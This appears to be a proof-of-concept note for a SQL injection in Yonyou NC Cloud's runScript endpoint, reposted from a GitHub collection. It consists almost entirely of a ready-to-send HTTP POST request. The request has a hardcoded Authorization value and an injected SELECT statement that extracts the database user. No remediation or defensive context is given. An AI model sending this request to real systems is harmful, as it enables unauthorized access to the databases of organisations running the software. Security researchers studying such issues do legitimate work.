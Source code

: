 # NCC_runscript_sqli

form: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNCCloud%E7%B3%BB%E7%BB%9FrunScript%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
2024.3.25 @2 
```
POST /ncchr/attendScript/internal/runScript HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Content-Length: 59
Accept: */*
Accept-Encoding: gzip
Accept-Language: en
Authorization: 58e00466213416018d01d15de83b0198
Connection: close
Content-Type: application/x-www-form-urlencoded

key=1&script=select 1,111*111,USER,4,5,6,7,8,9,10 from dual
```
